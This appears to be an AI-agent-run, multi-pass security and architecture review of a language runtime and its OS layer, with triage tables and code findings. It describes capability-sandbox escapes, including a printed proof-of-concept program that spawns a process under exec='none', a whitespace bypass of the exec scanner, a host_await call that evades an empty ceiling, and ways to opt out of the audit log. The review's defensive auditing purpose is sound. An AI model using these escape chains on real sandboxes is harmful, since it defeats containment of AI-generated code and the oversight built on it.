

# Deep Multi-Pass Review — 2026-07-31

Nested-loop review of all partially-complete and not-built governance specs plus the main code
areas. Inner loop = per-item review agents; outer loop = per-lens passes (straight → adversarial →
ASI-trajectory → architecture → PM → QA → specialists); meta loop = severity tally + repeat until a
full cycle surfaces zero new critical/high/medium findings.

## Task DAG



Pass 4 runs concurrently with passes 1–3 (disjoint write targets: spec files vs. this doc).
All spec feedback folds into the spec files; all code findings land here, never as direct code edits.

## Coverage matrix — specs in scope

P-column notation: `✔ nF/a` = pass done, n findings, a applied (severity mix in the tally table).

| Spec | Class | Focus | P1 | P2 | P3 |
|---|---|---|---|---|---|
| R1c-dict-runtime | partial | remaining: `arr_group_by`, `dict_from_str` | ✔ 6F/6 (2H) | ✔ 5F/5 (1C/1H/3M) | |
| R1d-single-source-builtins | partial | unfinished slices only | ✔ 4F/4 | ✔ 5F/5 (1H/2M/2L) | |
| R14-mobile-targets | partial | unfinished slices only | ✔ 6F/6 | ✔ 4F/4 (3H/1M) | |
| R17-freestanding-substrate | partial | deferred 2-core SMP harness + open §12 items | ✔ 8F/8 (1H — SMP-via-R13-FFI path unbuildable per spec's own Q7) | ✔ 6F/6 (2H/2M/2L) | |
| R21-decimal | partial | codegen posture + remaining scope | ✔ 3F/3 (1H) | ✔ 4F/4 (2M/2L) | |
| R33-cross-vm-safety-quorum | partial | unfinished slices only | ✔ 6F/6 (4H) | ✔ 6F/6 (1H/3M/2L) | |
| R34-incremental-attestation | partial | unfinished slices only | ✔ 8F/8 (2H) | ✔ 7F/7 (5M/2L) | |
| R39-typed-execution-graph | partial | open §12 Q3 (axon-gov binary) + residue | ✔ 4F/4 | ✔ 6F/6 (1H/3M/2L) | |
| R9b-smt-loop-invariants | not built | whole spec | ✔ 5F/5 (1H) | ✔ 4F/4 (1H/3M) | |
| R16-axon-ui | not built | whole spec | ✔ 7F/7 (1H) | ✔ 7F/7 (4M/3L) | |
| R18-provenance-ledger | not built | whole spec (+ spike docs as context) | ✔ 7F/7 (**1C**: Slice 1+ already built, ungated + undocumented — gating frame was false) | ✔ 6F/6 (1C/1H/3M/1L) | |
| R24-defended-approval-boundary | not built | whole spec | ✔ 8F/8 | ✔ 8F/8 (4H/2M/2L) | |
| R25-information-flow-monitor | not built | whole spec | ✔ 7F/7 (**1C**: false premise — R21 has no per-action ingress/egress wrappers to hook) | ✔ 8F/8 (3H/4M/1L) | |
| R36-full-asi-os | not built | whole spec | ✔ 4F/4 | ✔ 3F/3 (1H/2L) | |
| R37-nano-micro-asi-kernel | not built | whole spec | ✔ 5F/5 (1H) | ✔ 5F/5 (3M/2L) | |
| R38-embedded-agent-runtime | not built | whole spec | ✔ 4F/4 | ✔ 6F/6 (2H/2M/2L) | |
| R40-ai-native-research-compiler | not built | whole spec | ✔ 3F/3 | ✔ 4F/4 (1M/3L) | |
| R41-polyglot-runtime | not built | whole spec | ✔ 5F/5 | ✔ 6F/6 (2H/2M/2L) | |

## Coverage matrix — code areas (pass 4+)

| Area | Main surfaces | P4 | P5 | P6 | P7 |
|---|---|---|---|---|---|
| Compiler front-end | lexer/parser/resolver/infer/checker (axon-core) | ✔ 2 (2H) | — | — | ✔ (security lens) |
| Interpreter | interp.rs + interp/ (eval, builtins, kernel.rs) | ✔ 12 (1C/4H) | — | ✔ (exit-code lens) | ✔ 9 (perf) + security |
| Codegen | codegen/ (LLVM lowering, builtin_externs, parity) | ✔ 11 (3H) | — | ✔ (parity lens) | ✔ (perf lens) |
| OS / kernel | axon-os, axon-guest-kernel, axon-vm, axon-attest | ✔ 27 (2C/10H) | — | ✔ (exit-code lens) | ✔ 17 (4C/6H) |
| Runtime crates | axon-rt, axon-ai, axon-audit, axon-wasm | ✔ 8 (2H) | — | ✔ (ledger coverage) | ✔ (security lens) |
| Product surface | axon-intent, axon-web, CLI (main.rs) | ✔ 18 (3C/8H) | ✔ 41 (5C/13H) | — | ✔ 8 (2C/6H security) |
| Docs / onboarding | README, CLAUDE.md, spec/, examples/ | — | ✔ (4 lenses) | — | — |
| Gates / CI / harnesses | scripts/*.sh, .github/workflows, acceptance gates | ✔ (orchestrator) | — | ✔ 32 (3C/9H) | ✔ (QEMU harnesses) |

## Findings-by-severity tally (cycle 1)

| Pass | Critical | High | Medium | Low | Folded in |
|---|---|---|---|---|---|
| P1 straight | 2 | 16 | 47 | 35 | 100/100 (all 18 specs edited; run wf_d234a2a6, 36 agents) |
| P2 adversarial | 2 | 23 | 45 | 30 | 100/100 (run wf_3d4cc174, 36 agents) — **zero specs survived clean** |
| P3 ASI-trajectory | 25 | 73 | 55 | 4 | 157/157 (run wf_4f0c0648, 36 agents) — verdicts: 5 **undermined**, 13 holds-with-gaps, **0 holds** |
| P4 architecture | 6 | 29 | 31 | 12 | n/a — findings recorded here, no code edits (run wf_0621a20f, 6 agents) |
| P5 product | 3 | 11 | 16 | 11 | n/a — findings recorded here, no code edits (run wf_fd75a2a7, 4 agents) — verdict **not-ready** on all 4 dimensions |
| P6 QA | 5 | 11 | 10 | 6 | n/a — findings recorded here (run wf_fd75a2a7, 3 agents) |
| P7 specialists | 6 | 12 | 10 | 6 | n/a — findings recorded here (run wf_fd75a2a7 resumed, 3 agents: security / OS-kernel / perf) |
| **cycle-1 total** | **49** | **176** | **214** | **104** | 357 spec findings folded into 18 specs; 185 code findings recorded, zero code edits |

Convergence rule: a full cycle with zero new critical/high/medium findings ends the loop.
**Cycle 1 did not converge.** The final pass was the *densest* in criticals per agent
(6 criticals from 3 agents vs. 6 from 6 in P4), which is the signature of an
un-saturated search — the specialist lenses were opened last and immediately found
new unsound ground (forged attestations, a fail-open guest policy parser, forgeable
principal handles, approval not bound to the artifact). A cycle-2 is warranted, but
the finding rate is no longer the bottleneck: 49 unresolved criticals are.

### [REVISED 2026-08-01] Adversarial triage of the 20 code CRITICALs

Before building a task DAG, all 20 code-side CRITICAL findings (P4–P7) were
re-checked by 4 agents instructed to **refute by default**. Full evidence:
`governance/reviews/2026-08-01-triage/verdict-{1..4}.md`; summary `SUMMARY.md` there (was cited under the gitignored `.archive/`, rescued 2026-08-04).
**Nothing below is deleted — every finding keeps its section; only its grade moves.**

| verdict | n | ids |
|---|---|---|
| CONFIRMED — stays CRITICAL | **3** | F013, F041, F153 |
| CONFIRMED — → HIGH | 11 | F001, F014, F040, F042, F093, F109, F132, F133, F138, F140, F162 |
| CONFIRMED — → MEDIUM | 4 | F110, F139, F152, F160 |
| REFUTED — → MEDIUM / LOW | 2 | F161 → MEDIUM, F154 → LOW |

**18/20 describe a real, reproducible defect; 3/20 warrant CRITICAL.** The facts
in these findings held up; the grades did not. That is the single most important
correction to this document: the *severity* column of cycle 1 is inflated and
should not be used to plan work without triage. The corrected code-side critical
count is **3, not 20**.

The 3 survivors are one cluster — **capability-sandbox escape**:

- **F153** — string-dispatch builtins bypass the `@[contained]` walker (both vectors reproduced)
- **F041** — `sandbox_run` **replaces** rather than **intersects** the effect ceiling (escape reproduced)
- **F013** — an axon-os zero-capability job re-widened its own sandbox; the control exits 8

Two of the downgraded-to-HIGH findings are the *same system*, and were reached
independently by two agents from two different findings: **F014** and **F040** —
`effect_set()` reduces capabilities to a boolean set, discarding path prefixes and
host allowlists, and no path or host check exists anywhere downstream. So
`@[contained](fs: [write("./out/")], net: ["api.example.com"])` enforces "may
write **somewhere**" and "may reach **some** host". The allowlists parse,
type-check, appear in the approval UI, and are dropped before they constrain
anything. Independent corroboration makes this the most solid result in the set.

Recurring reasons for downgrade, each a lens worth applying to the remaining
165 untriaged findings:

1. **Defense-in-depth counted as sole defense** (F162: guest-kernel `0xFF` fail-open) —
   real, but sits behind an already-enforcing layer.
2. **Error direction unexamined** (F139) — over-reports, cannot hide a real
   violation. A correctness wart, not a security hole.
3. **Unbuilt feature filed as bug** (F160) — the attestation stand-in is documented
   as a stand-in and no `hw-attest` feature exists. Roadmap item, not a DAG task.
4. **Mechanism real, impact nil** (F154) — see below.

#### Correction to this document's own Pass-7 spot-verification

F154 (forgeable principal handles) was hand-verified *by the orchestrator* in the
Pass-7 section below and graded CRITICAL. The mechanism is correct and undisputed:
`principals: Vec<Principal>` makes handles dense array indices, so `child - 1`
reaches the parent.

It is also irrelevant. **`principal_root` is ungated** — an attacker mints a root
principal directly, so forging a parent handle grants nothing already unavailable.

Confirming that cited code says what a finding claims is not confirming that the
finding matters. This is precisely the failure this review names for the codebase
(*"the check that exists is not the check that was claimed"*), committed here in
the review itself. The Pass-3 and Pass-7 spot-verifications below should be read
with that caveat: they establish **mechanism**, not **impact**.

Ungated `principal_root` is a larger issue than the finding that surfaced it, and
is covered nowhere in the 185. Logged as O003 in `tasks/opportunities.md`.

### Pass-3 spot-verification (orchestrator, independent of the reporting agents)

Pass 3's tally (25C/73H) is far above passes 1–2, so three of its critical claims were re-checked by
hand before being trusted. **All three confirmed, and one is a live bug visible on inspection:**

1. **Dict bool values read back as `-1`** (`codegen/expr.rs:7811-7818`) — the `dict_set` tag dispatch
   widens narrow ints with `w_int_s_extend` (**sign**-extend). An LLVM `i1` `true` sign-extends to
   `-1`, not `1`. A bool stored in a dict and read back is wrong, natively, silently. This is a real
   codegen bug, not a spec-quality finding. **Fix: zero-extend for i1.**
2. **Dict tag space is not injective** (`expr.rs:7801`) — the str arm matches on
   `sv.get_type() == str_ty` where `str_ty` is `{i64, ptr}`, which is *also* the array layout. Arrays
   and strs are indistinguishable at this dispatch, so R1c slice 5's planned "abort on tag mismatch"
   guard would not be sound as specified — it would turn today's accidental abort into a
   type-confusion read. The pass-3 agent flagged this as a blocker on slice 5; that is correct.
3. **Unvalidated `file_stem()` interpolated into generated Kotlin/Swift** (`main.rs:2808` →
   `mobile.rs:291-313`) — `app_name` is a raw `to_string_lossy()` with no validation, interpolated
   into the Kotlin package name, class name, `System.loadLibrary(...)`, and the Swift struct name.
   R14 §7's I-12 claim of a "fixed template" is false; the filename is a code-injection channel into
   a generated artifact the human never reviews (they review the `.ax`).
4. **`-Wl,--export-dynamic` unfiltered** (`codegen/link.rs:773-778`) — confirmed present with no
   version script or symbol filter, despite the adjacent comment asserting the intent is to expose
   only the entry symbols. The shipped `.so` exports everything.

Conclusion: pass 3's severity distribution reflects genuinely code-grounded findings, not
threat-model speculation. Its output should be weighted the same as passes 1–2, not discounted.

## Orchestrator-verified findings (passes 5–6, established read-only during a classifier outage)

These were established by the orchestrator directly, not by a subagent, and each is checkable from
the file cited. They belong to the PM (P5) and QA (P6) lenses.

### [CRITICAL] CI runs none of the project's real gates, and covers 1 of 19 crates

`.github/workflows/ci.yml` is the only general CI workflow (the other two, `ios.yml`/`tee.yml`, are
platform-specific). It runs exactly four commands, **every one scoped `-p axon-core`**:
`cargo check`, `cargo test`, `cargo fmt --check`, `cargo clippy` — all `--no-default-features`.

Consequences, each verifiable from `Cargo.toml` (19 workspace members) and `scripts/gate.sh`:

- **18 of 19 crates have zero CI test coverage.** `axon-os` (the safety kernel — latch, grant, gate,
  coalition, ledger, monitor; ~88 tests), `axon-ledger` (63 tests), `axon-intent`, `axon-certcheck`,
  `axon-attest`, `axon-vm`, `axon-web` are never built or tested by CI. This is precisely where the
  P4 architecture pass found 2 critical and 10 high findings — an area with no automated regression
  protection at all.
- **`scripts/gate.sh` is never invoked by CI.** The gate is the documented "single, atomic build
  gate… every code change must pass THIS exact gate," but nothing automated enforces it; it is a
  local, human-discipline artifact.
- **The I-2 two-engine parity invariant is unenforced in CI.** `parity_all.sh` (~50 `*_parity.sh`
  harnesses — the project's central soundness claim that native codegen matches the interpreter
  oracle byte-for-byte) runs only under `gate.sh --strict`, which CI never calls. The repo's own
  comment at `gate.sh:124-128` says ad-hoc running "is how the silent-divergence bugs
  (#27/#36/#38/#39/parse_*_or) reached main" — the fix was applied to the gate, not to CI.
- **Codegen is never built or tested in CI** (no LLVM on the runner, acknowledged at `ci.yml:42-43`),
  so the entire native backend — where P3 confirmed the live dict bool sign-extension bug — is
  covered only by local runs.

**Recommendation:** make CI call `scripts/gate.sh` (accepting a documented LLVM-absent skip), and at
minimum change `-p axon-core` to `--workspace` for the test/clippy stages. The runtime-crate clippy
allowlist at `gate.sh:86` is a recurring source of this same class of gap (see
[[gate-sh-clippy-coverage-gaps]]) — an explicit crate list will keep drifting; prefer `--workspace`.

### [HIGH] The standard gate is far weaker than it reads

Within `gate.sh` itself, everything load-bearing sits behind `--strict`: the parity suite, codegen
clippy, codegen-gated integration tests, the R1d drift kill-gate, and the SMT prover tests. A plain
`scripts/gate.sh` green run exercises none of them. Given CI runs neither variant, "the gate is
green" is a substantially weaker statement than the file's own header implies.

Additionally the SMT stage (`gate.sh:139-147`) SKIPs silently when `libz3` is absent — the
documented vacuous-pass class ([[coverage-vacuous-pass-guard]]) applied to the prover the Phase-5
verification story depends on.

### [CRITICAL] No LICENSE file, though the manifest claims MIT

`Cargo.toml` declares `license = "MIT"` (workspace.package), but there is **no `LICENSE` file** in
the repo root (nor `CONTRIBUTING`). For a project whose README opens by pitching itself to external
adopters, this is a hard public-release blocker: no one can lawfully use, fork, or vendor it, and
the manifest asserts a license whose text is never supplied. `CHANGELOG.md` does exist.

### README headline claim — VERIFIED TRUE (the good news)

The README's opening example (three `E1001` refusals under
`@[contained(fs: [], net: [], exec: none)]`) is the project's entire pitch. Run live against the
built binary, **all three refusals fire exactly as documented**, with genuinely good help text:

```
E1001  `read_file("/etc/passwd")` is not permitted: no `fs: [read(...)]` in @[contained]
E1001  `ai_complete(...) [host api.anthropic.com]` is not permitted: no `net: [...]` in @[contained]
E1001  `exec(...)` is not permitted: `exec: none` or exec not specified in @[contained]
```

Worth stating plainly amid this review's findings: **the project's central claim is real and
demonstrable.** The capability refusals are not aspirational.

### [LOW] The README headline snippet is not a valid program

The same run also emits two `E0302` errors — `read_file` and `ai_complete` return
`Result<str, str>`, which must be used. So the snippet would not compile even if all three
capabilities *were* granted. It works as an illustration (the E1001s are what it's demonstrating)
but a reader who copies it hits two extra errors the README doesn't lead them to expect. Either add
`?`/`match`, or note inline that the snippet is illustrative.

## Code findings

(populated by passes 4–7; findings are recorded here, not applied as code edits)

## Pass 4 — architecture code review (run wf_0621a20f, 6 agents, high effort)

**78 findings: 6 critical / 29 high / 31 medium / 12 low.** Findings only — no code was edited.

Cross-area convergence is meaningful signal: the nested-sandbox escape and the grant-allowlist non-enforcement were each found independently by two different area agents.

**Orchestrator spot-verification (2026-07-31, independent of the reporting agents).** Three findings
re-checked by hand against the tree; all three confirmed exactly as reported:

1. **Nested-sandbox escape** — `interp/builtins.rs:191` exempts `sandbox_create`/`sandbox_run` from the
   ceiling check, and `interp/builtins.rs:2836` does `self.active_sandbox.replace(sb_handle)` (replace,
   not intersect). Sandboxed code can mint a wide-open sandbox and re-enter it. Confirmed.
2. **Grant path/host allowlists never enforced** — `axon-os/src/runtime.rs:253` `wrap_in_sandbox` maps a
   `Grant` to *coarse tags only* (`Net`/`AI`/`IO`); the `fs_write: ["./out/"]` prefix list is never
   passed to the interpreter in any form. The function's own doc comment concedes "finer fs-vs-exec
   distinctions are enforced only by the static gate." Confirmed.
3. **`exec` scanner evaded by one space** — `runtime.rs:232` is `source.contains("exec(")`, so `exec (`
   passes the static scan. Confirmed.

**These three compose into one exploit chain, which no single agent saw end-to-end:** the static gate is
the *only* thing enforcing fs/exec granularity (per #2), it is a substring scan defeated by whitespace
(#3), and the runtime sandbox that would otherwise backstop it is itself escapable from inside (#1) —
and that runtime sandbox is exactly the mechanism `axon-os run` wraps every job in. A job approved as
"may write only `./out/`, may NOT spawn processes" can therefore write anywhere and spawn anything.
Treat the chain, not the three findings separately, as the top-priority item.


### Interpreter — 12 findings (1C/4H/6M/1L)


#### [CRITICAL] F5 runtime sandbox ceiling is escapable from inside the sandbox (nested sandbox_create/sandbox_run replaces rather than intersects)
*crates/axon-core/src/interp/builtins.rs:191* · kind: bug · reporter confidence: high

call_builtin exempts `sandbox_create` and `sandbox_run` from the effect-ceiling check (interp/builtins.rs:191), and `sandbox_run` *replaces* the active handle rather than intersecting ceilings (`self.active_sandbox.replace(sb_handle)`, interp/builtins.rs:2836). Sandboxed code can therefore mint a wide-open sandbox and re-enter it, discarding the ceiling it was placed under. This voids the entire Phase-9 F5 property for exactly the population it exists to contain (AI-emitted tool code running under `sandbox_run`).

**Recommendation:** Make the ceiling monotone: keep a stack of active sandboxes and have the check require an effect to be allowed by EVERY frame (intersection), and have `sandbox_create` inside an active sandbox intersect the requested set with the current ceiling (or refuse outright, E-coded). Keeping the two builtins exempt is fine once the ceiling can only narrow.


#### [HIGH] host_await/host_await_val are classified as PURE (empty effect row) — they bypass the sandbox ceiling, effect handlers, E1310 subsumption, @[pure], and the audit ledger
*crates/axon-core/src/builtins.rs:2196* · kind: bug · reporter confidence: high

`host_await`, `host_await_opt`, `host_await_val`, `host_await_val_opt` are absent from both `is_impure_builtin` (builtins.rs:2130) and `builtin_effect_row` (builtins.rs:2196), so both tables agree they are pure — which is why the `builtin_effect_row_agrees_with_impurity` lockstep test (builtins.rs:2655) passes without catching it. Reproduced: a sandbox created with an EMPTY effect ceiling blocks `println` (exit 8) but lets `host_await("exfiltrate: 42")` write to the host and read a reply back, returning normally (exit 0). Same misclassification means (a) a `@[pure]` fn calling `host_await` passes `axon check` (verified, exit 0), so an effectful, nondeterministic call is admissible in a refinement predicate — the exact hole closed for `now_ms`/`random_i64`; (b) a `surface` fn calling it needs no effect row (E1310 sees nothing); (c) `audit_effect_kind` returns None so no ledger entry; (d) no `with handler` can intercept it.

**Recommendation:** Give the host_await family a real effect tag (e.g. `Host` or `IO`) in `builtin_effect_row` and add them to `is_impure_builtin`, then decide the `@[contained]` policy explicitly. Additionally, change the classification default from allow-by-omission to deny-by-omission: make `builtin_effect_row` exhaustive over `BUILTINS` (compile-time or a test that fails on any BUILTINS entry with no explicit row/purity decision) so a new builtin cannot be silently born pure.


#### [HIGH] native:: module calls bypass every runtime capability control (sandbox ceiling, @[agent] action log, audit ledger, handler interception)
*crates/axon-core/src/interp/eval.rs:674* · kind: bug · reporter confidence: high

`eval_native_call` / `eval_domain_native_call` (interp/eval.rs:674 and :793) are dispatched straight from `Expr::Call` in `eval` and never pass through `call_builtin`, which is the sole site of the F5 sandbox check (interp/builtins.rs:189), the R4 mandatory `@[agent]` action log (interp/builtins.rs:172-180) and the R28 ledger hook (:219-224). Reproduced: `sandbox_run` with an empty (`""`) effect ceiling did not refuse `modbus::modbus_connect("127.0.0.1", 15502)` — the call proceeded to a real TCP connect and failed only because nothing was listening. The same route means an `@[agent]` fn performing industrial/financial I/O via native::modbus/fix/fhir leaves no `agent_action` record, defeating the I-13 "un-opt-out-able audit" claim.

**Recommendation:** Route native calls through the same pre-dispatch gate as builtins: give each `NativeFn` a declared effect row (the module already declares Net for modbus/fhir/fix), and factor the sandbox check + agent-action log + ledger append into one `pre_effect_gate(name, effects)` helper called by `call_builtin`, `eval_native_call`, and `eval_domain_native_call`.


#### [HIGH] run_suspendable_values spawns the interpreter worker with the default thread stack, so the recursion guard never fires — deep recursion aborts the process (SIGABRT/134) instead of panicking gracefully
*crates/axon-core/src/interp.rs:1488* · kind: bug · reporter confidence: high

`run_suspendable_values` (interp.rs:1481) runs `run_program_inner` on `scope.spawn(...)` (interp.rs:1488-1495) with the default (~2 MiB) stack, bypassing `on_deep_stack`, whose whole job is to size the stack to `stack_size_for_depth(resolve_max_depth())` so the RECURSION_LIMIT=6000 guard trips before a real overflow (interp.rs:709-722, 586-613). `run_suspendable_vsock` and `run_suspendable_hypercall` DO use `on_deep_stack`; only the worker-thread path does not. Reproduced: `fn rec(n) { if n<=0 {0} else {1+rec(n-1)} }` at depth 2000 returns cleanly (exit 0) on the normal path, but the identical program with a dead-branch `host_await("never")` — enough for main.rs:3586's `src.contains("host_await")` substring gate to pick the suspendable path — dies with `fatal runtime error: stack overflow, aborting` and exit 134, core dumped. This hits precisely the R15 flagship workloads (REPL, approval agent, prompt loops).

**Recommendation:** Build the worker with `std::thread::Builder::new().stack_size(stack_size_for_depth(resolve_max_depth())).spawn_scoped(...)` (the same sizing `on_deep_stack` uses), and add a regression test asserting a deep-recursion program under `run_suspendable` exits 101 with the graceful "recursion limit" message rather than aborting.


#### [HIGH] kernel_goal_run treats a zero eval budget as UNLIMITED — an exhausted principal still gets an unbounded optimizer run (R12b budget invariant violated)
*crates/axon-core/src/interp/builtins.rs:3372* · kind: bug · reporter confidence: high

`kernel_goal_run` computes `evals = max_evals.max(0).min(avail)` (interp/builtins.rs:3372) and passes it to `run_goal`, but every hill-climb reads `max_evals <= 0` as "unlimited" (goal.rs:698, :800, :137). So `evals == 0` — the case that means "this principal has no budget left" — becomes an uncapped search. Reproduced: a principal with budget 0 and `kernel_goal_run(g, 3)` executed the `@[adaptive]` metric 36 times (counted via eprintln) before raising GoalBudgetExhausted; and `kernel_goal_run(g, 0)` against a budget-100 principal ran 36 evaluations, charged 0, and exited 0. Since each evaluation may `ai_complete`, this is real unmetered spend under a construct whose stated contract is "a goal can never spend beyond its principal's grant".

**Recommendation:** Short-circuit before calling the optimizer: if `avail <= 0` or `max_evals <= 0`, return `Flow::GoalBudgetExhausted` (or Ok with zero evals) without running `run_goal`. Better, stop overloading 0: give the hill-climbers an explicit `Budget::Unlimited | Budget::Evals(n)` argument so a clamped-to-zero budget can never be read as unlimited anywhere.


#### [MEDIUM] kernel_goal_create silently binds an invalid/negative principal handle to handle 0 (usually the root), spending the root's budget
*crates/axon-core/src/interp/builtins.rs:3349* · kind: bug · reporter confidence: high

`kernel_goal_create` does `principal.max(0) as usize` (interp/builtins.rs:3349) with no existence check, and `kernel_goal_run`/`_best_score`/`_spent`/`_budget_left` all do `g.max(0) as usize` on the goal handle. Reproduced: `kernel_goal_create(-1, "metric", 90.0)` returned goal 0, reported `budget_left = 50` (the root's), and `kernel_goal_run(g, 5)` debited the ROOT principal from 50 to 45. This is authority confusion by clamping: a caller with no principal gets the first-minted (root) authority. It is also inconsistent with sibling builtins — `principal_mint` rejects a negative parent with E1601 (:2702) and `llm_open` validates the principal exists (:3244).

**Recommendation:** Validate like `llm_open`: refuse a negative handle or one absent from the registry with E1604, and refuse a negative/out-of-range goal handle instead of clamping to 0. A sweep for `.max(0) as usize` across the kernel builtins would catch the rest of this pattern.


#### [MEDIUM] Policy stops (VerifyFailed exit 3 / RefineViolation exit 6) are demoted to "fiber failed" inside the scheduler, letting the program exit 0
*crates/axon-core/src/interp/builtins.rs:133* · kind: bug · reporter confidence: high

`builtin_scheduler_run_once` catches `Flow::Panic | Flow::RefineViolation | Flow::VerifyFailed` and records them as a fiber failure (interp/builtins.rs:133-137). Reproduced: `@[verify(value <= 10)] fn risky(x) { 999 }` run via `scheduler_spawn("risky", 1)` + `scheduler_run()` reports `failed=true` but the process exits 0 — the exit-3 verify contract is silently defeated by wrapping the function in a fiber. Since `scheduler_spawn` takes a function NAME as a string, any function in the program can be laundered this way with no type-level trace. The same applies to a refinement violation (exit 6).

**Recommendation:** Only catch `Flow::Panic` per-fiber (the documented rationale — supervisors restart crashes). Propagate `VerifyFailed`/`RefineViolation` like `Halted`, or record them distinctly and have `scheduler_run` surface a non-zero terminal outcome so the policy exit code survives. At minimum, distinguish crash-failures from policy-failures in `FiberState` so a supervisor cannot restart-loop a value that violated its contract.


#### [MEDIUM] principal_activate is unauthenticated — any code can re-attribute its capability audit records to another principal
*crates/axon-core/src/interp/builtins.rs:2851* · kind: bug · reporter confidence: high

`principal_activate(handle)` (interp/builtins.rs:2851) reads the name from any handle and installs it as `current_principal` with no authorization check and no relationship to the caller's own authority. That name is what `append_agent_action_jsonl` and `append_ai_call_jsonl` stamp as `principal` (interp/builtins.rs:177, 4245). Handles are dense sequential integers, so sandboxed/agent code can scan 0..N and attribute its AI spend and capability actions to any other principal — including the root. `principal_activate` also has an empty effect row, so the F5 sandbox cannot block it.

**Recommendation:** Require the activation target to be the current principal or a descendant of it in the registry lineage (`PrincipalRegistry` already stores `parent`), and refuse otherwise. Alternatively make attribution non-forgeable by deriving the audited principal from the activation stack maintained by the kernel rather than from a caller-supplied handle.


#### [MEDIUM] i64::MIN / -1 silently wraps, contradicting the file's own "never a silent wrap" (I-9) invariant
*crates/axon-core/src/interp/value.rs:637* · kind: bug · reporter confidence: high

`eval_binop_vals` uses `checked_add/sub/mul` with a graceful overflow panic, but division falls through to `Ok(Int(a.wrapping_div(b)))` (interp/value.rs:637) after only the divisor==0 guard. Reproduced: `(-9223372036854775807 - 1) / (0 - 1)` yields -9223372036854775808 and exits 0. Codegen deliberately reproduces this (codegen/expr.rs:1236-1295 selects INT_MIN to avoid SIGFPE), so the two engines agree — this is a design gap, not a divergence — but it is exactly the "wrapped value masquerading as success" class the comment at interp/value.rs:616-620 says is the worst outcome for an autonomous consumer.

**Recommendation:** Make INT_MIN/-1 an overflow panic in both engines (codegen already computes the `is_trap` predicate at expr.rs:1268 — branch it to `emit_arith_guard` with a new kind instead of the wrapping select), and keep the wrapping behaviour available only through an explicit `wrapping_div` builtin.


#### [MEDIUM] The mandatory audit trail is best-effort file I/O that fails open and silently
*crates/axon-core/src/interp/provenance.rs:100* · kind: architecture · reporter confidence: high

`append_agent_action_jsonl`, `append_ai_call_jsonl` and `append_provenance_jsonl` all return early if `provenance_log_path()` is None (no HOME/XDG_CACHE_HOME) and discard every I/O error (`let _ = file.write_all(...)`, interp/provenance.rs:59-61, 100-107, 123-125, 147-153); the R28 ledger hook likewise does `let _ = axon_audit::append_global(...)` (interp/builtins.rs:222). The capability action still proceeds. So the I-13 "un-opt-out-able" audit is opt-outable by unsetting HOME, filling the disk, or making the cache dir read-only — with no diagnostic. Each record also reopens the shared global NDJSON file with no locking, so concurrent runs interleave.

**Recommendation:** For the agent-action and ai_call classes specifically, treat a failed append as fail-closed (refuse the capability call with a distinct error) or at minimum emit a loud one-shot stderr warning. Hold a single opened, append-mode handle per run instead of reopening per record, and make the log path explicit/required rather than silently derived.


#### [MEDIUM] Runtime enforcement is scattered across one 4800-line dispatch instead of a single choke point, which is why the same control has three independent bypasses
*crates/axon-core/src/interp/builtins.rs:165* · kind: architecture · reporter confidence: high

The sandbox ceiling, agent-action log, ledger append, replay-feed interception and handler interception are five inline blocks at the head of `call_builtin` (interp/builtins.rs:165-296). Anything that reaches an effect without going through that function — `eval_native_call` (interp/eval.rs:674), `eval_domain_native_call` (:793), and any builtin whose effect row is empty by omission (`host_await`) — gets none of them. `Interp` itself has ~25 `RefCell`/`Cell` fields of ambient run state (interp.rs:336-516), and privileged operations are dispatched by string function name (`sandbox_run`, `scheduler_spawn`, `kernel_goal_create`), so the type system provides no help in reasoning about what is enforced where.

**Recommendation:** Extract an explicit `EffectGate` seam: one `fn gate(&self, op: OpDescriptor) -> Result<(), Flow>` that every effect-performing path (builtin, native, domain, future FFI) must call, carrying the declared effect row. Make the gate the only place that consults `active_sandbox`/`enclosing_agent`/ledger, and add a test that enumerates effect-performing dispatch sites and asserts each routes through it.


#### [LOW] The purity/effect-row lockstep test cannot detect a builtin that is wrong in both tables, and kernel handle tables grow unboundedly
*crates/axon-core/src/builtins.rs:2655* · kind: improvement · reporter confidence: high

`builtin_effect_row_agrees_with_impurity` (builtins.rs:2655) only asserts the two classifications AGREE; a builtin omitted from both (host_await, finding above) passes. Separately, `sandboxes`, `stores`, `goals`, `supervisors`, `llm_gateways` and the scheduler's fiber vector are append-only for the life of the run (interp.rs:453-473) with no release path, so a loop that mints sandboxes/stores grows memory monotonically — and `dstore_open` additionally re-reads and replays the whole NDJSON log on every open.

**Recommendation:** Add a test that every `BUILTINS` entry appears in an explicit classification table (not just that two derived views agree), so omission is a build failure rather than a silent "pure". For the handle tables, either document the per-run monotonic growth as intended or add free/close builtins with generation-tagged handles so a freed index cannot be reused by a stale handle.


### OS/kernel crates — 27 findings (2C/10H/12M/3L)


#### [CRITICAL] Contained job escapes the axon-os runtime sandbox by minting a wider sandbox (sandbox_create/sandbox_run are exempt from the ceiling check)
*crates/axon-os/src/runtime.rs:299* · kind: bug · reporter confidence: high

crates/axon-os/src/runtime.rs:299-305 calls the sandbox wrapper "the sound fence… what actually contains". But crates/axon-core/src/interp/builtins.rs:191 exempts `sandbox_create` and `sandbox_run` from the active-sandbox effect check, `sandbox_create` has an empty effect row, and `sandbox_run` (builtins.rs:2846) *replaces* rather than intersects the active ceiling. So code already inside a ceiling can mint an arbitrarily wide one and run under it.

VERIFIED end-to-end on this checkout. Job manifest: fs_read=[], fs_write=[], net=[], exec="none", budget.calls=1. Program:

    fn pwn(_x: i64) -> i64 { let args = ["/tmp/PWNED2.txt"]  let r = exec ("touch", &args)  match r { Ok(_s) => 0  Err(_e) => 1 } }
    fn main() -> i64 { let p = principal_root("inner", true, true, true, 999999)
                       let sb = sandbox_create(p, "IO,Net,AI")
                       sandbox_run(sb, "pwn", 0) }

`axon-os run evil2.axjob` printed `✓ completed (value=0)`, exited 0, and /tmp/PWNED2.txt was created — an arbitrary process spawned under exec="none". Without the escape the same program is correctly refused (`sandbox violation: builtin exec requires effect IO … allowed set {}`, exit 8), so the escape is the whole difference.

